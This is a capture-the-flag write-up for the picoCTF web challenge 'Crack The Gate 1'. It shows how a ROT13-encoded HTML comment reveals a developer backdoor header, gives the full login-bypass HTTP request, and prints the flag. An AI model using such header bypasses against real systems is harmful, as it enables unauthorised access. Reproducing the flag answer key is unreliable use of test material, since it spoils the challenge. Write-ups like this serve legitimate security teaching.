



# Crack The Gate 1
**Category:** Web Exploitation
**Difficulty:** Easy

## 📝 Description
*We’re in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We’ve uncovered the email address he uses to log in: ctf-player@picoctf.org. Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked. But something feels off... it’s almost like the developer left a secret way in. Can you figure it out? The website is running here. Can you try to log in?*


## Analysis:
We are given a login page and we asked to login with the known email but we don't have the password. First, i try to inspect the web page. 



Here we can see HTML Comments. It ask to remove the comment before pushing to production. The first comment seems like a ROT13 strings. Let's try to rotate it again.



There it is. We got the instruction for temporary bypass just by use header **X-Dev-Access: yes**.
    
## Exploit:
To exploit, we just need to add **X-Dev-Access: yes** into the HTTP request header.

```
POST /login HTTP/1.1
Host: amiable-citadel.picoctf.net:56347
Content-Length: 51
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
X-Dev-Access: yes
Origin: http://amiable-citadel.picoctf.net:56347
Referer: http://amiable-citadel.picoctf.net:56347/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"ctf-player@picoctf.org","password":"tes"}
```


That's it. The flag is **picoCTF{brut4_f0rc4_3e21b3a3}**.